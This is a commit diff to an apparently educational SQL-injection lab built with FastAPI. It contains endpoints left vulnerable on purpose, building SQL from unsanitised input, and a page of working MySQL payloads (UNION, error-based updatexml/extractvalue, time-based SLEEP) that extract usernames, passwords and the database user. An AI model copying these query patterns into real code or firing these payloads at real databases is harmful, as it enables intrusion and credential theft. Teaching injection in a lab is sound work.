

Before and after one commit to AutoTestClass/Learn-hacking-class, a FastAPI app: page / in a window 1280 px wide. Shown: the part 179-1615 px from the top of the page at 80% size. Before the commit the page ends 1356 px from the top, so only its background shows below. Run offline with FastAPI, Linux system fonts and the light colour scheme.

Commit message:
feat: update example

```diff
--- a/main.py
+++ b/main.py
@@ -81,10 +81,10 @@ def boolean_blind(input: str, db: Session = Depends(get_db)):
 
 
 # 4. 报错注入演示 (不安全)
-@app.get("/error_injection/{input}")
+@app.get("/error_injection/")
 def error_injection(input: str, db: Session = Depends(get_db)):
     # 不安全的查询方式
-    query = f"SELECT * FROM products WHERE id = 1 {input}"
+    query = f"SELECT * FROM products WHERE id = {input}"
     logger.debug(f"exe SQL: {query}")
     try:
         result = db.execute(text(query))
@@ -99,7 +99,7 @@ def error_injection(input: str, db: Session = Depends(get_db)):
 @app.get("/time_blind/{input}")
 def time_blind(input: str, db: Session = Depends(get_db)):
     # 不安全的查询方式
-    query = f"SELECT * FROM products WHERE id = 1 AND SLEEP({input})"
+    query = f"SELECT * FROM products WHERE id = {input}"
     logger.debug(f"exe SQL: {query}")
     try:
         result = db.execute(text(query))
--- a/models.py
+++ b/models.py
@@ -1,5 +1,6 @@
 from sqlalchemy import Column, Integer, String
 from database import Base
+
 
 class User(Base):
     __tablename__ = "users"
@@ -9,6 +10,7 @@ class User(Base):
     password = Column(String(100))
     email = Column(String(100), unique=True, index=True)
 
+
 class Product(Base):
     __tablename__ = "products"
 
--- a/templates/index.html
+++ b/templates/index.html
@@ -36,7 +36,7 @@
         <div class="code-block">
             <p>1 UNION SELECT 1,username,password FROM users--</p>
         </div>
-        <a target="_blank" href="/union_injection/">联合查询注入</a>
+        <a target="_blank" href="/union_injection/1">联合查询注入</a>
     </div>
 
     <div class="demo-card">
@@ -50,35 +50,39 @@
         <div class="code-block">
             <p> admin' AND SUBSTRING(password,1,1)='a </p>
         </div>
-        <a target="_blank" href="/boolean_blind/">测试布尔盲注</a>
+        <a target="_blank" href="/boolean_blind/admin">测试布尔盲注</a>
     </div>
 
     <div class="demo-card">
         <h2>3. 报错注入</h2>
         <p>通过构造恶意查询，使数据库返回错误信息，从而获取敏感数据。</p>
-        <p>1. 1/0 除零错误（Division by zero）</p>
+        <p>1. 获取数据库名</p>
         <div class="code-block">
-            <p> AND (SELECT 1/0)</p>
+            <p> 1 AND (SELECT updatexml(1, concat(0x5c, (SELECT database())), 1))</p>
         </div>
-        <p>2.
-            extractvalue(xml_frag, xpath_expr):
-            MySQL 函数，用于从 XML 文档中提取值。</br>
-            concat(0x5c, (SELECT user()))
-            concat()：字符串拼接函数; </br>
-            0x5c：十六进制，表示字符 \
+        <p>2.获取登录地址与用户名。 </p>
+        <div class="code-block">
+            <p>1 AND extractvalue(1,concat(0x5c,(SELECT user())))</p>
+        </div>
+        <a target="_blank" href="/error_injection/?input=1">测试报错注入</a>
+        <p>
+            * updatexml(目标xml, xpath路径，新值)这个函数本来是用于修改 XML 数据的。</br>
+            * extractvalue(xml片段, xpath表达式): 用于从 XML 文档中提取值。</br>
+            * concat()：字符串拼接函数; </br>
+            * 0x5c：十六进制，表示字符 \
         </p>
-        <div class="code-block">
-            <p> AND extractvalue(1,concat(0x5c,(SELECT user())))</p>
-        </div>
-        <a target="_blank" href="/error_injection/">测试报错注入</a>
     </div>
 
     <div class="demo-card">
         <h2>4. 时间盲注</h2>
         <p>通过构造包含时间延迟函数的查询，根据响应时间判断信息。</p>
+        <p>1. 检查是否支持时间盲注</p>
         <div class="code-block">
-            <p>GET /time_blind/3</p>
-            <p>GET /time_blind/IF(SUBSTRING(password,1,1)='a',3,0)</p>
+            <p>1 AND IF(1=1, SLEEP(3), 0)</p>
+        </div>
+        <p>2. 通过时间盲注猜测密码</p>
+        <div class="code-block">
+            <p>1 AND IF(SUBSTRING((SELECT username FROM users LIMIT 1),1,1)='a', SLEEP(3), 0)</p>
         </div>
         <a target="_blank" href="/time_blind/3">测试时间盲注</a>
     </div>
```
